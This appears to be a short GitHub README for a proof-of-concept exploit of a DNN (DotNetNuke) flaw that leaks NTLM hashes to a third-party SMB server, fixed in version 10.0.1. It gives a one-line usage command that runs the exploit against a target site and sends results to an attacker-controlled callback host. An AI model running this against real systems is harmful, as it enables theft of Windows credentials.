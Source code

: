 Hi

# DNN (DotNetNuke) - Unicode Path Normalization NTLM Hash Disclosu

- DNN (formerly DotNetNuke) is an open-source web content management platform (CMS) in the Microsoft ecosystem. In versions 6.0.0 to before 10.0.1, DNN.PLATFORM allows a specially crafted series of malicious interaction to potentially expose NTLM hashes to a third party SMB server. This issue has been patched in version 10.0.1.


To use:
```bash
python3 poc.py https://target-site.com your-interactsh-url.oastify.com
```


<img width="1005" height="349" alt="Screenshot 2025-07-21 at 8 35 53 PM" src="https://github.com/user-attachments/assets/3ca9654a-dd16-4800-9c94-48c8d537503c" />
